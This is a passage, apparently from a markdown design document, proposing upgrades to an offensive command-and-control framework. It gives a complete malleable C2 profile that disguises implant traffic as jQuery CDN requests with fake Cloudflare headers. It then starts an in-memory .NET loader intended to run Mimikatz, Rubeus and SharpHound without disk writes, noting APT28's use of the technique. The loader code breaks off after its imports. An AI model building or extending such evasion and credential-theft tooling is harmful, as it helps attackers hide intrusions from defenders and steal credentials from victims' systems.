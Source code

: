 ```python
        # ... implementation
        pass

# Example profile (looks like jQuery CDN traffic)
JQUERY_PROFILE = """
http-get {
    uri "/jquery-3.6.0.min.js";
    
    client {
        header "Host" "code.jquery.com";
        header "Accept" "*/*";
        header "Referer" "https://www.google.com/";
        
        metadata {
            parameter "_";  # Timestamp-like parameter
        }
    }
    
    server {
        header "Server" "cloudflare";
        header "Content-Type" "application/javascript";
        
        output {
            prepend "/*! jQuery v3.6.0 */\n";
            append "\n/* End jQuery */";
        }
    }
}
"""
```

**Impact:** ✅ **C2 traffic indistinguishable** from legitimate web traffic

---

### IMPROVEMENT #2: In-Memory .NET Execution (Windows)

**Research:** Cobalt Strike's execute-assembly, APT28 usage

**Add:** `Core/dotnet_loader.py`
```python
class DotNetLoader:
    """
    Execute .NET assemblies in-memory without touching disk
    
    Research:
    - Cobalt Strike's execute-assembly (2017)
    - "Executing .NET Assemblies In Memory" - Casey Smith
    - APT28 used in-memory .NET (2019)
    
    Capabilities:
    - Run .NET tools (Mimikatz, Rubeus, SharpHound)
    - No disk writes
    - No PowerShell
    - All in-memory
    """
    
    def __init__(self):
        if sys.platform != 'win32':
            return
        
        # Load CLR via COM
        import comtypes
        from comtypes.client import CreateObject
```